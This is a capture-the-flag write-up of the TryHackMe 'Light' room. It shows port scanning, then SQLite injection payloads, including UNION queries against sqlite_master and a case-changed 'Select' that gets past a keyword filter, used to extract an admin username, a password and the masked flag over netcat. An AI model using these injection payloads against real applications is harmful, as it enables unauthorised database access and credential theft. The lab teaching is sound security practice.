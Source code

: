```yaml
---
title: "Light"
date: 2025-01-18T09:36:24+01:00
draft: false
hidden: false
tags:
    - ctf
    - writeup
    - tryhackme
summary: ""
---
```


|Revised Date | Author | Comment |
| ----------- | ------ | ------- |
| 19.01.2025  | Roger Johnsen | Article added |

## Introduction

>_I am working on a database application called Light! Would you like to try it out?
If so, the application is running on port 1337. You can connect to it using nc 10.10.147.110 1337
You can use the username smokey in order to get started._
>
>_Note: Please allow the service 2 - 3 minutes to fully start before connecting to it._

Availability: https://tryhackme.com/r/room/lightroom

--- 

## Portscanning

```bash
nmap -sS -Pn -p- 10.10.147.110 -oN scan.txt

# Nmap 7.94SVN scan initiated Sat Jan 18 12:34:04 2025 as: /usr/lib/nmap/nmap --privileged -sS -Pn -p- -oN scan.txt 10.10.147.110
Nmap scan report for 10.10.147.110
Host is up (0.059s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
1337/tcp open  waste
```

## Enumerating service

```bash
nc 10.10.147.110 1337

Welcome to the Light database!
Please enter your username: smokey
Password: vYQ5ngPpw8AdUmL
Please enter your username: '
Error: unrecognized token: "''' LIMIT 30"
Please enter your username: --
For strange reasons I can't explain, any input containing /*, -- or, %0b is not allowed :)
```
Initial prodding of the login prompt reveals the following:  

- If a username exists, the system returns and displays the associated password.  
- The prompt suggests a database is involved, making SQL injection the most likely vulnerability.  
- Inserting a single quotation mark (`'`) results in an SQL error.  
- Input filtering appears to be in place.  

```bash
nc 10.10.147.110 1337
Welcome to the Light database!

Please enter your username: 
Password: tF8tj2o94WE4LKC
Please enter your username: ' or username like 'a%
Password: tF8tj2o94WE4LKC
Please enter your username: ' or username like 'x%
Username not found.
Please enter your username:
```

Further prodding using the following payloads:

| Payload | Result | 
| ------- | ------ |
| ```' or '1'='1``` | Returns a different password than for "smokey" |
| ```' or username like 'a%``` | Returns the same password as above mentioned "OR" statement |
| ```' or username like 'x%``` | No user founds. Verification that I have guessed the correct column and that there are no users starting with "x" | 

#### The hints

The room's description states, *"I am working on a database application called Light."* The room itself is named *"Light,"* and the URL for the room is *"/lightroom."* Seeing these in combination, it seems likely that we are dealing with SQLite - phonetically, it makes sense. Therefore, I will base my investigation on this assumption moving forward.  

## Enumerating database

### Tables

For standard querying, listing tables in SQLite can be accomplished with the following query, which we will exploit shortly:

```sql
SELECT name FROM sqlite_master WHERE type = 'table' ORDER BY name;
```

When applied to the application's input, we get something like this:

```sql
x' Union SELECT name FROM sqlite_master WHERE type='table
```

Putting this into practice:

```bash
nc 10.10.147.110 1337

Welcome to the Light database!
Please enter your username: x' UNION SELECT name FROM sqlite_master WHERE type='table
Ahh there is a word in there I don't like :(
Please enter your username: 
```

While debugging, it seems the backend does not accept the "SELECT" keyword, even in lowercase. However, this works:  

```bash
nc 10.10.147.110 1337

Welcome to the Light database!
Please enter your username: x' Union Select name FROM sqlite_master WHERE type='table
Password: admintable
Please enter your username: 
```

### Users

We now know the table name, "admintable." Let's see if we can retrieve its contents! We'll use the same logic as above:

```sql
x' Union Select username FROM admintable WHERE username like '%
```

Putting this into practice:

```bash
nc 10.10.147.110 1337

Welcome to the Light database!
Please enter your username: x' Union Select username FROM admintable WHERE username like '%
Password: T*************
Please enter your username: T*************
Username not found.
Please enter your username:
```

Although we can extract the username, we cannot retrieve the password by simply entering the username at the prompt. However, we must use SQL injection once again:

```sql
x' Union Select password FROM admintable WHERE username like 'T%
```

Putting this into practice:

```bash
nc 10.10.147.110 1337

Welcome to the Light database!
Please enter your username: x' Union Select password FROM admintable WHERE username like 'T%
Password: m*******************
Please enter your username: 
```

At this point, I thought I could simply SSH into the machine and retrieve the flag. Unfortunately, the credentials didn’t work. So, I decided to revisit probing the database.

### Flag

It appears that there is only one table in the database. Perhaps there is more content I'm not aware of? I’m trying this route without looking at the username I recently found:

```sql
x' Union Select password FROM admintable WHERE username not like 'T%
```

Putting this into practice:

```bash
nc 10.10.147.110 1337         
Welcome to the Light database!
Please enter your username: x' Union Select password FROM admintable WHERE username not like 'T%
Password: THM{******************************}
Please enter your username:
```

And there’s the flag.